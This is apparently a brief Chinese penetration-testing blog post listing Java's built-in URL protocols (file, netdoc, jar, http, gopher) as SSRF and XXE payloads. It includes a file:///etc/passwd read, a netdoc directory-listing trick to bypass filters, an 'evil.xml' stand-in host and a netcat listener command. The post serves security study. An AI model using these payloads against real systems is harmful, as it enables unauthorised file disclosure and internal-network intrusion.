 ```yaml
---
layout: post
title:  java自定义通信协议及利用
noToc: true
date:   2019-01-13 09:30:00 +0800
tags: 内网探测 渗透测试
cover: '../assets/' 
---
```


java自定义通信协议及利用

JAVA默认提供了对file,ftp,gopher,http,https,jar,mailto,netdoc协议的支持 。

file(ssrf、xxe)：

```
file:///etc/passwd
```

netdoc(ssrf、xxe)：

知道文件名和文件路径，很简单我们只要知道文件路径然后利用我们的 netdoc 去列目录就能知道文件名了 

```
netdoc:///var/www/html/
```

ps:过滤了file、gopher可使用netdoc代替

jar(ssrf、xxe):

```
jar:http://localhost:9999/jar.zip!/1.php
```

http(ssrf、xxe):

```
http://url/file.ext
http://example.com/evil.xml
```

gopher(ssrf、xxe):

```
gopher://ip:port/xxx
```

监听：nc -vv -l -p  port

